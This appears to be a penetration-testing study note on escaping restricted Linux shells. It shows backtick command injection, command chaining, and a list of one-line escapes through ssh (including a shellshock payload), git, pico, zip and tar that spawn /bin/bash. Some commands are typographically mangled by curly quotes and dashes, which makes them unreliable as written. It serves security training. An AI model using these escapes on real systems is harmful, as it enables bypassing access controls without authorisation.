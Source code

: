 # Escaping Restricted Shells

## Escaping

### Command injection
Imagine that we are in a restricted shell that allows us to execute commands by passing them as arguments to the ls command. Unfortunately, the shell only allows us to execute the ls command with a specific set of arguments, such as ls -l or ls -a, but it does not allow us to execute any other commands. In this situation, we can use command injection to escape from the shell by injecting additional commands into the argument of the ls command.

For example, we could use the following command to inject a pwd command into the argument of the ls command:

  Escaping Restricted Shells
pratik04dabhi@htb[/htb]$ ls -l `pwd` 

### Command Chaining
In some cases, it may be possible to escape from a restricted shell by using command chaining. We would need to use multiple commands in a single command line, separated by a shell metacharacter, such as a semicolon (;) or a vertical bar (|), to execute a command. For example, if the shell allows users to execute commands separated by semicolons, it may be possible to escape from the shell by using a semicolon to separate two commands, one of which is not restricted by the shell.

Advanced Techniques
Now let’s move into some dirty advance techniques.

From ssh >
ssh username@IP – t “/bin/sh” or “/bin/bash”
From ssh2 >
ssh username@IP -t “bash –noprofile”
From ssh3 >
ssh username@IP -t “() { :; }; /bin/bash” (shellshock)
From ssh4 >
ssh -o ProxyCommand=”sh -c /tmp/yourfile.sh” 127.0.0.1 (SUID)
From git >
git help status > you can run it then !/bin/bash
From pico >
pico -s “/bin/bash” then you can write /bin/bash and then CTRL + T
From zip >
zip /tmp/test.zip /tmp/test -T –unzip-command=”sh -c /bin/bash”
From tar >
tar cf /dev/null testfile –checkpoint=1 –checkpointaction=exec=/bin/bash


--------------------------------
https://vk9-sec.com/linux-restricted-shell-bypass/